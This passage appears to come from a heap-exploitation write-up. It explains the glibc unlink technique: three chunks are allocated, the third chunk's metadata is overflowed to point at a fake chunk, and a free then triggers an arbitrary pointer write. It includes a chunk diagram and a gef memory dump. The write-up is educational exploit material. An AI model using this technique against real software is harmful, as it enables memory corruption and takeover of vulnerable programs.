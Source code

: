 After that, we will free the second chunk (second chunk that we allocated) which will trigger the unlink, and write a pointer to `BK-fd` and `FD->bk`. In this case it will be a pointer to the fake `FD` chunk, since they will both be writing it to the same location in memory, however that pointer gets written last.

```
+----------------+    +----------------+
| BK             |    | FD             |
+----------------+    +----------------+
| BK-fd -> FD    |    | FD-fd  -> null |
+----------------+    +----------------+
| BK->bk -> null |    | FD->bk -> BK   |
+----------------+    +----------------+
```

Let's talk about how we will be overflowing the heap metadata and constructing the fake chunk. For this we will allocate three chunks. The first will hold our fake chunk for the unlink. The second chunk we will use to overflow the metadata of the third chunk. The third chunk will be the one which we overwrite the heap metadata to point to the fake chunk, and we free it. For the bug I used, I noticed that we can't use any null bytes (except the one at the end of the string) which we need for the fake chunk. That is why I have the second chunk, so I can overwrite the third chunk's metadata while still keeping the chunk intact. Let's take a look at the memory being corrupted. We start off with our three chunks:

```
gef➤  x/4g 0x602120
0x602120:    0x25f5010    0x25f50a0
0x602130:    0x25f50c0    0x0
gef➤  x/50g 0x25f5000
0x25f5000:    0x0    0x91
0x25f5010:    0x0    0xa0
0x25f5020:    0x602108    0x602110
0x25f5030:    0x0    0x0
0x25f5040:    0x0    0x0
0x25f5050:    0x0    0x0
0x25f5060:    0x0    0x0
0x25f5070:    0x0    0x0
0x25f5080:    0x31    0x0
0x25f5090:    0x0    0x21
0x25f50a0:    0x3131313131313131    0x31
0x25f50b0:    0x0    0x91
0x25f50c0:    0x3232323232323232    0x3232323232323232
0x25f50d0:    0x3232323232323232    0x3232323232323232
0x25f50e0:    0x3232323232323232    0x3232323232323232
0x25f50f0:    0x3232323232323232    0x3232323232323232
0x25f5100:    0x3232323232323232    0x3232323232323232
0x25f5110:    0x3232323232323232    0x3232323232323232
0x25f5120:    0x3232323232323232    0x3232323232323232
0x25f5130:    0x3232323232323232    0x32323232323232
0x25f5140:    0x0    0x20ec1
0x25f5150:    0x0    0x0
0x25f5160:    0x0    0x0
0x25f5170:    0x0    0x0
0x25f5180:    0x0    0x0
```
